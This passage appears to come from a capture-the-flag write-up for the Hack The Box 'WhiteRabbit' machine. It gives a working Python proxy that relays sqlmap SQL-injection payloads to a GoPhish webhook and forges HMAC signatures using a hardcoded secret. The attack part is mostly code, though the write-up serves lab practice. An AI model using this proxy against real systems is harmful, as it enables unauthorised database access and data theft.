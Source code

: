 The SQL Injection works. To speed things up, we can use sqlmap (don't try this at home) to automate the exploitation. To have the requests validated, we can set up a Python proxy that receives the SQLi payload generated by sqlmap, creates the signature, and sends the complete request to the server.

```python
from http.server import HTTPServer, BaseHTTPRequestHandler
import hmac
import hashlib
import requests
import json

HOST = "127.0.0.1"
PORT = 1337

secret = "3CWVGMndgMvdVAzOjqBiTicmv7gxc6IS"
url = "http://28efa8f7df.whiterabbit.htb/webhook/d96af3a4-21bd-4bcb-bd34-37bfc67dfd1d"

class SQLiProxyHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)

        try:
            sqlmap_data = json.loads(post_data)
            email_payload = sqlmap_data.get('email', '*').strip('"')

            payload = {
                "campaign_id": 1,
                "email": f'"{email_payload}"',
                "message": "Clicked Link"
            }

            signature = hmac.new(
                secret.encode(), 
                json.dumps(payload, separators=(',', ':')).encode(),
                hashlib.sha256
            ).hexdigest()

            headers = {
                "x-gophish-signature": f"sha256={signature}",
                "Content-Type": "application/json"
            }
            response = requests.post(url, json=payload, headers=headers)

            self.send_response(response.status_code)
            self.send_header("Content-Type", "application/json")
            self.end_headers()
            self.wfile.write(response.content)

            print(f"\n[+] Payload inviato:", json.dumps(payload, indent=2))
            print(f"[+] Signature: {signature}")
            print(f"[+] Response: {response.status_code} - {response.text[:100]}...\n")

        except json.JSONDecodeError:
            self.send_error(400, "Invalid JSON received")
        except Exception as e:
            self.send_error(500, message=str(e))
            print(f"[!] Errore: {str(e)}")

if __name__ == "__main__":
    server = HTTPServer((HOST, PORT), SQLiProxyHandler)
    print(f"Proxy in ascolto su http://{HOST}:{PORT}")
    server.serve_forever()
```

